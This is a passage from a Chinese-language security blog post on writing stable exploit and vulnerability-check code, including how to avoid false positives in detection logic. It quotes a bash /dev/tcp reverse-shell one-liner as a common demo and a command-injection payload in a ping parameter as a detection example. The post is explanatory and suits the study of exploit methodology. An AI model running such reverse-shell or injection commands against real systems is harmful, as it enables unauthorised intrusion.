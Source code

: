 稳定利用里有两个问题需要额外注意：

一是编写的代码是否考虑到了存在漏洞的应用的不同版本之间的差异。比如API 接口变化、路径变化等，可能会导致相当一部分的漏洞利用不成功；

二是`执行代码`优于`执行命令`。比如现在常见的一个示例的就是利用`代码执行`漏洞进行反弹shell的利用，演示用的多是利用执行类似 `/bin/bash -i >& /dev/tcp/{ip}/{port} 0>&1` 的命令来反弹shell。

这里面有个`降级利用`的概念，即`代码执行` 却常被当做 `命令执行` 来使用，但是 `代码执行` 一般比`命令执行`可操作性更大，更稳定。

当只利用漏洞进行`执行命令`时，这当然没有什么问题，但是当用执行命令来反弹shell时，就会出现比较大的问题。比如，只适合 Linux 类系统，而且有些docker、busybox之类的精简环境可能没有 `/bin/bash`，或者不支持命令行下的反弹shell，这些都会让漏洞利用不成功。

这种情况下的正确做法应该是优先执行一段代码，而不是`降级`之后的执行命令来完成复杂的操作。

### 3.最简利用优先

在能达到相同利用效果的情况下，选择最简单的实现路径。

比如最近的写的一个 [flink-unauth-rce](https://github.com/LandGrey/flink-unauth-rce) 漏洞利用，最优雅的方式是根据 flink api 来实现执行命令回显这个功能，但是势必要花点时间去学习和构造代码，不如直接利用程序报错回显，在报错结果中提取出执行命令的结果，省时省力效果良好。

## 五: 须避免的错误

#### 1\. 检测条件不充足

比如，通过 GET 请求路径

```plain
/hard-to-guest-path/there/is/vulnerable
```

然后判断漏洞存在的核心逻辑是状态码 200，并且响应中存在 `admin` 关键词。

虽然请求路径比较特殊，但是考虑到有些网站总是返回 200 状态码，并且`admin`作为关键词过于普通，所以容易产生误报。

#### 2\. 检测关键词放置在发包内容中

比如检测一个可以回显的 GET 型命令执行漏洞，构造了如下的 payload

```plain
/api/ping?host=127.1|echo+79c363c6044c4c58
```

然后判断漏洞存在的核心逻辑是关键词 `79c363c6044c4c58` 出现在返回状态码是200的目标 response 中。

这类将判断漏洞存在的关键词放置在 GET 请求的 URL 中，**有些网站在请求不存在的路径时，也会返回 200 状态码，而且会将请求的 URL 全部返回到 response 中**，这样就产生了误报。

当然，不止 GET 请求，POST 等请求类型的漏洞验证也会存在此类问题。比如 POST 发包：

```plain
POST: /api/ping
DATA: host=127.1|echo+79c363c6044c4c58
```

**有些网站在接收到不能处理的请求时，会将 POST 的所有数据包括HTTP Header 等回显到页面**， 这时候判断关键词就会产生误报。

## 六: 总结

规则是死的，人是活的。为了编写出符合要求的代码，在指定的要求、特殊情况下可以牺牲一些方面的准则特性来强化其他方面的准则特性。

比如，某些情况下付出 30% 的精力就可以编写出覆盖 90% 应用环境的代码，如果钻牛角尖，要付出 100% 的精力，编写出适合 99% 应用环境的代码，是无法享受漏洞研究到漏洞利用这整个过程的。

作为一名有追求的安全研究人员，不应该浅尝辄止于普通`漏洞验证`代码的编写，良好的`漏洞利用`代码的编写才能显示出漏洞的真正危害，体会到`漏洞利用`代码编写的精髓。
